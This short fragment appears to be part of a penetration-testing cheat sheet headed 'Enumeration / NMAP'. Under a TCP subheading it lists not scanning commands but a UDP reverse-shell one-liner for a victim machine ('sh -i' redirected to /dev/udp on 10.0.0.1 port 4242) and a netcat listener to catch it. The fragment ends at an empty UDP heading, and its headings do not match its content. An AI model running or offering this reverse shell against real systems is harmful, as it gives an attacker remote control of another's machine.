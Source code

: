 # Enumeration

## NMAP

### TCP

```bash
Victim:
sh -i >& /dev/udp/10.0.0.1/4242 0>&1

Listener:
nc -u -lvp 4242
```
### UDP
